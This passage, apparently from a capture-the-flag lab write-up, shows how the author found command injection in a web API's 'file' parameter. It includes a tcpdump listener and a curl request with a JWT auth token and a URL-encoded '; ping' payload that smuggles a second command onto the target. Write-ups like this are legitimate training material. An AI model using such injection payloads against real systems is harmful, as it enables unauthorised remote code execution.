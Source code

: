 ![Untitled](images/Untitled%2025.png)

According to the code, it’s doing something strange at line 38, like a sending a command and showing the output. To bake that command, the parameter file is being collected from the url… so maybe we can inject code there and perform a RCE in the target machine? Let’s try it:

To test it, I’ll listen in my local machine for pings in the tun0 interface:

`tcpdump -i tun0 icmp -n`

And I’ll try to send a ping from the target machine. To do so, I’ll url encode the command I want to execute: `; ping -c 1 10.10.14.13` > `%3Bping%20-c%201%2010.10.14.13`

If this is appended to the command that the target will execute, it should ping my machine.

```jsx
curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MmUxNmZlNGNlNmQ2NTA0NWEyZmVkZjYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFsbUBhbG0uY29tIiwiaWF0IjoxNjU4OTQxNjc4fQ.U4MB0eP5yc3eXWzseM_7dP2jf0JZP7RovnoMx9jv4mM' http://10.10.11.120/api/logs?file=%3Bping%20-c%201%2010.10.14.13
```

![Untitled](images/Untitled%2026.png)
